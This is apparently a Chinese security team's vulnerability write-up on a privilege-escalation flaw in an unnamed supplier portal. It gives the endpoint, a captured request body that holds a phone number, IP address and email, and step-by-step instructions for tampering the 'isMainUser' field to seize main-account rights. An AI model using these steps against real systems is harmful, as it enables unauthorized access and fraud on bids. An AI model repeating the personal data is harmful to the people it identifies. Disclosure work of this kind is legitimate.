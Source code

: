 #  某供应商系统存在越权漏洞  
 雾鸣安全   2025-07-22 02:36  
  
雾鸣Team  
  
  
**CNMistSafety**  
  
  
  
漏洞类型：事件型  
  
固件版本：暂无  
  
fofa：title="暂无"  
  
实战记录  
  
URL：/isp/portal/user/saveUnauthorizedSupplierDetail  
  
{\"lastUpdateDate\":null,\"lastUpdateLogin\":null,\"memo\":\"\",\"password\":\"\",\"context\":\"\",\"lastUpdatedBy\":null,\"emailBind\":\"N\",\"fixedPhone\":\"\",\"creationDate\":null,\"attribute9\":\"\",\"attribute8\":\"\",\"attribute5\":\"\",\"attributeCategory\":\"\",\"attribute4\":\"\",\"phone\":\"13481563973\",\"attribute7\":\"\",\"attribute6\":\"\",\"attribute1\":\"SU250600101\",\"attribute14\":\"\",\"attribute13\":\"\",\"attribute12\":\"\",\"attribute3\":89859,\"attribute11\":\"\",\"attribute2\":\"templogin\",\"attribute10\":\"\",\"job\":\"主要联系人\",\"idNumberScan\":\"\",\"supplierId\":89859,\"attribute15\":\"\",\"siteName\":\"\",\"supplierNum\":\"\",\"idNumber\":\"\",\"userCode\":497177,\"lastLoginIp\":\"58.32.233.198\",\"expiryDate\":null,\"confirmPassword\":\"\",\"isMainUser\":\"是\",\"SFox\":\"\",\"userEmail\":\"top@lxmtools.top\",\"reUserName\":\"2\",\"supplierName\":\"\",\"addressAssignment\":\"\",\"phoneBind\":\"N\",\"userName\":\"Aa1q2w2\",\"phoneValid\":\"0\",\"bidPassword\":\"\",\"createDept\":\"\",\"createdBy\":null,\"inviteCode\":\"\",\"businessType\":\"\",\"isDel\":true}]","supplierInfoPerformanceWz":"[]","flag":"temp","supplierId":"YjhXd2s3T3Y4RVBjWVh2UThoUHdvOFZZTittTWpFbmNZR0NvOStnbVR5ajJmTWxwL2NENEhaZDYyKytBMThXa0hhWTRhdmdOcEFLUzBJdHFrNExjeE5NZ2VyODBGUG  
  
```  
  
  
二、实战记录思路  
  
1.注册一个供应商账号并登录系统。  
  
  
2.在账号管理中添加一个联系人用户，填写完整的联系人信息（如邮箱、手机号等）。  
  
  
3.登出当前账号，使用该联系人用户前往登录页，点击“忘记密码”，通过预设信息重置密码。  
  
4.使用新密码登录该联系人账号，成功进入系统。  
  
  
5.登录后抓包，点击“暂存”功能，捕获第二个请求包。  
  
  
6.修改请求包中的参数，将 "isMainUser":"否" 修改为 "isMainUser":"是"，然后重复发送该请求（多次尝试可成功）。  
  
  
7.登录供应商门户系统，查看联系人信息是否已变更为主用户身份。  
  
  
8.若成功，则可通过该账号修改企业资料、提交报价，确认存在越权漏洞。  
  
  
  
更多漏洞信息请关注：  
  
https://fogming-sec.github.io/lxmtools/  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bQv07rEoSgnASDXC53WkoCVAbC73AzGr2gJ1hkgmLJf47DcQBvKhS65n8gFR9Rfr2aeIbyMIbxguySA37OaCNA/640?wx_fmt=gif "")  
  
  
                             
  
《中华人民共和国网络安全法》  
  
《本文章仅供学习参考，请勿进行违法操作》  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oYEjKAbwRS5j0FWmY1KfkOjtMjecmeKWvibePRFVcCETZUOgibKLjnxibaSaqI3Tbt9aKgU35tJmxXWI4cbnWaZ4A/640?wx_fmt=png "")  
  
©2024-雾鸣安全  
  
  
  
